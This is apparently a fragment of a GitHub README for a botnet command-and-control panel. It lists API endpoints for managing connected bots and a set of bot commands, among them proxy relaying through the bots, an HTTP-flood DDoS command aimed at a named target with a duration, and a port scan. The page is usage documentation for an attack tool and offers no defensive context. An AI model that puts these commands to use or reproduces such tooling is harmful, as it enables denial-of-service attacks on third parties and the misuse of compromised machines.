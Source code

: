 #### Stop Server:
```bash
POST /api/stop_server
```

#### Get Status:
```bash
GET /api/status
```

#### Get Bots:
```bash
GET /api/bots
```

#### Send Bot Command:
```bash
POST /api/bot_command
{
    "bot_id": "bot_123",
    "command": "INFO"
}
```

### Bot Agent Commands:

#### Enable Proxy Mode:
```
ENABLE_PROXY_MODE
```

#### Proxy Request:
```
PROXY_REQUEST:connection_id:target_host:target_port:is_https
```

#### Health Check:
```
HEALTH_CHECK:
```

#### System Info:
```
INFO
```

#### DDoS Attack:
```
DDoS:HTTP_FLOOD:target.com:60
```

#### Port Scan:
```
SCAN:PORTS:192.168.1.1
```
